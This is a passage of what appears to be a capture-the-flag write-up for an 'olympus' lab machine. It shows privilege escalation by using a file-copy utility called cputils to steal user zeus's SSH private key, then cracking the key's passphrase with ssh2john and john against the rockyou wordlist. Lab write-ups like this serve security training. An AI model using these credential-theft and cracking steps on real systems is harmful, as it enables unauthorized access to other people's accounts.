 ![](cybersecurity/images/Pasted%2520image%252020250501141935.png)

Let's use `linpeas`:

![](cybersecurity/images/Pasted%2520image%252020250501142701.png)

We got a binary called `cputils`, let's use it and check what it does:

```
www-data@olympus:/tmp$ cputils
  ____ ____        _   _ _
 / ___|  _ \ _   _| |_(_) |___
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/

Enter the Name of Source File: .

Enter the Name of Target File: .

Error Occurred!
```

Seems like it simply copies files, let's copy `zeus` `id_rsa`:

```
www-data@olympus:/tmp$ cputils
  ____ ____        _   _ _
 / ___|  _ \ _   _| |_(_) |___
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/

Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: id_rsa

File copied successfully
```

There we go, we got `id_rsa`, we can now go into ssh as `zeus`:

```
ssh zeus@olympus.thm -i id_rsa
Enter passphrase for key 'id_rsa':
```

Maybe not, let's crack the passphrase using john:

```
ssh2john id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt

snowflake
```
